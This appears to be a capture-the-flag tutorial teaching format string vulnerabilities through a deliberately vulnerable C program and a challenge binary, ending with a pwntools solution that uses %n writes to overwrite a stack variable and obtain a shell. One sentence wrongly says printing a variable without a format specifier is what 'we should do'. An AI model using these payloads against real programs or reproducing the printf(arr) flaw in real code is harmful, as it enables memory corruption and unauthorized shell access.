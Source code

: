 # 2_my_echo

In `2_my_echo`, we will be taking a look at format string vulnerabilities.

Usually when we're taught to use `printf`, we're shown what to do. For example:

- Printing a string literal: `printf("Hello!")` or `printf("%s", "Hello!")`
- Printing an int variable: `printf("%d", num)`
- Printing a char/str variable: `printf("%c", character)`, `printf("%s", str)`

What we should do is print a variable without giving it its proper format specifier.

Example:

```C
// gcc -m32 fmtstr.c -o fmtstr
#include <stdio.h>

void main () {
	char arr[50];

	fgets(arr, 50, stdin);
	printf(arr);
}
```

This is because the behaviour can be undefined behaviours, like so:

```c
% ./fmtstr
Hi!
Hi!

% ./fmtstr
Hello!
Hello!

% ./fmtstr
%p
0xa70
```

Some common format specifiers we usually use are: `%s`, `%c`, `%d`, `%x`, `%f`.\
These are used to print strings, characters, integers, unsigned integers, and floats respectively, there are more out there but these are just a few.\
A lesser known specifier is the `%n` specifier. `%n` can be used to write to memory.

To write to our desired address, we must first find the address we want to write to, and to do that, I'll use the example from above.

```c
% ./fmtstr
AAAA%p%p%p%p%p%p%p%p
AAAA0x320xf7f4e5400x5664e1d4(nil)0xf7f88b700x4141d0340x702541410x70257025

% ./fmtstr
bbAAAA%p%p%p%p%p%p%p%p
bbAAAA0x320xf7eb25400x5664d1d4(nil)0xf7eecb700x6262c0340x414141410x70257025
```

As we saw in the first example output, `%p` outputs the value at the `esp` register.\
`%p%p%p%p` will pop four values from `esp` to `esp - 16` and print it.\
From the first output of the above example, we see that the 6th and 7th popped values are `0x4141d034` and `0x70254141` respectively.\
So in the second one, I pad the `AAAA` with `bb` so that the value `0x41414141` would be aligned, making things easier for me.

We're able to output the values on the stack, so what?\
With this, we can select the argument we want from the stack by its position by using the `$` preceded by its position as an integer.

```c
% ./fmtstr
bbAAAA%p%p%p%p%p%p%p%p
bbAAAA0x320xf7f3b5400x565ac1d4(nil)0xf7f75b700x6262b0340x414141410x70257025
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~^
                                                       7th position

% ./fmtstr
bbAAAA%7$p
bbAAAA0x41414141
```

So now that we're able to write using the `%n` specifier and reference any address we want, we can combine this to achieve arbitrary writing of memory.\
Let's think about how we would write to a certain address.

1. Our input is stored on the stack, a couple arguments from `esp`
   - We can use the `$` symbol to select a certain argument after finding it by trial and error or if the buffer is large enough, input a lot of `%p`'s
   - With this we can write any address we want and reference it by its position.
2. Writing to said address
   - This is achieved through the `%n` specifier, but we must reference to the address we want while using `%n`
3. Write a specific value to the address
   - The `%n` specifier writes to the address, but it writes the number of characters written beforehand
     - So for example, if we have `printf("AABBCCDD %n", &num)`, `num` will equal to the length of `AABBCCDD `, therefore `num` will hold the value 9.
   - The `%x` specifier will allow us to write as many bytes as we want before using `%n`, `%[num]x`
4. Finally, we combine steps 1, 2 and 3, after that, we will have something like: `[Address]%[NumToWrite]x%[AddrPosition]$n`

Now let's take a took at this binary.

```
% ./2_my_echo
This is my address 0xffd1aa1c
You can come over if you tell me the password.
```

Taking a look at that given address, starting with 0xff usually indicates that it is an address on the stack.\
Looking at the source code, we see that it is the address of the variable `flag` which is never changed by the program and takes executes a `system("/bin/sh")`.

So with what I have explained above, can you construct a payload which uses the concepts previously explained to make the flag variable equal 42?

<details>
   <summary>My Solution</summary>

```python
from pwn import *

#context.log_level = "debug"
remote_conn = False

IP = ""
PORT = ""
FILENAME = "./2_my_echo"

if remote_conn:
    p = remote(IP, PORT)
    elf = ELF(FILENAME)
else:
    p = process(FILENAME)
    elf = p.elf

p.recvuntil("address ")
leak = int(p.recvline()[:-1], 16)
print(leak)
log.info(str(leak))

# using the pwntools `fmtstr_payload` function
payload = fmtstr_payload(7, {leak: 1})

# manual payload
# i recommend learning how to manually create the payload
# as it'll familiarise you with how the payloads for these attacks work

# payload = [flagAddr] + %38x + %7$n
#            4 bytes   + 38 bytes = 42 bytes
payload = pack(leak) + b"%38x%7$n"
p.sendline(payload)

p.interactive()
```

</details>
